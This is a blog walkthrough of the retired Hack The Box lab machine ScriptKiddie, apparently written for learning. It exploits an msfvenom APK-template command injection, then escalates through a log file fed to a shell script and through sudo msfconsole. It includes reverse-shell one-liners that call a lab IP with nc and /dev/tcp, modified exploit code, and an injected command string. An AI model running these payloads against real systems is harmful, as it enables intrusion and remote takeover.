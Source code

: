 ```yaml
---
layout: single
title: "Walktrough: HTB ScriptKiddie"
namespace: htb-scriptkiddie
category: Walkthrough
tags:
    - HackTheBox
    - HTB Easy
    - HTB Linux
date: 2021-06-05 16:00:00
header:
    teaser: https://i.imgur.com/Egv2O1k.png
    og_image: https://i.imgur.com/Egv2O1k.png
redirect_from: /writeup/2021/06/htb-scriptkiddie
---
```


Hello guys!

This week's machine will be **ScriptKiddie**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu), created by [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**:  Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeration

As usual, started running a `nmap` quick scan, to see which services were published on this machine.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - HTTP Service

Once accessed the published page, noticed some hacking tools published making it easier for a script kiddie to play with hacking, allowing you to scan an IP using `nmap`, create a `msfvenom` payload or search for exploits using `searchsploit`.

I've tried several ways to inject commands in these forms, but none of the attempts succeeded. I have even found an interesting tool called [commixproject/commix](https://github.com/commixproject/commix) in GitHub that automates this process but had no luck this time.

Looking for vulnerabilities in the tools used by the app (`nmap`, `msfvenom`, `searchsploit`), I have found one related to `msfvenom`, as below:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Initial access and User flag

After changing the python script available in searchsploit, using the desired payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, I have found some errors during the execution of the binary `keytool`, once it tries to sign an APK file with the payload in the Common Name but, as there was a `+` in the base64 encoded content, made a quick change to encode it twice, allowing me to create an evil APK to be uploaded to the tool and exploit the vulnerability

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Below we can see the output of the execution which generates the `evil.apk` file.

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

After obtaining the evil payload, started one listener and selected the options suggested in the payload output, where selecting the android operating system would result in the payload `android/meterpreter/reverse_tcp` we aim to abuse based in the existing vulnerability, as well as specifying the lhost as 127.0.0.1 but this shouldn't impact the way exploit will work.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

After hitting the **Generate** button, a reverse shell was returned, as seen below in this screenshot.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Inspecting the session obtained, with the credentials running the web application, in this case user `kid`, was possible to obtain the user flag, as the file resided in it's home directory.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

After running `linenum.sh` to automate the enumeration, noticed taht there was another user called `pwn`, possibly with more privileges than the user we currently have. As we had access to it's home directory, found a file called `scanloosers.sh` with the following content:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

As this script reads the content of a file in the current's user home directory (`/home/kid/logs/hackers`) and issues an `nmap` command, edited the content of this file in a way we would inject a reverse shell command with the user running this script, possibly `pwn`.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

After setting up a new listener and changing the `hackers` file with the above-mentioned content, another session was obtained, this time with the user `pwn` :smile:

Enumerating the box again, this time with the new user account, noticed by running `linpeas.sh` that this user has access to start `msfconsole` in a privileged way.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Once started it using `sudo`, I was able to issue commands as user `root`, as well as read the content of file `/root/root.txt` and obtain the final flag for this machine.

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Hope this was somehow useful!

See you in the next post :smiley:
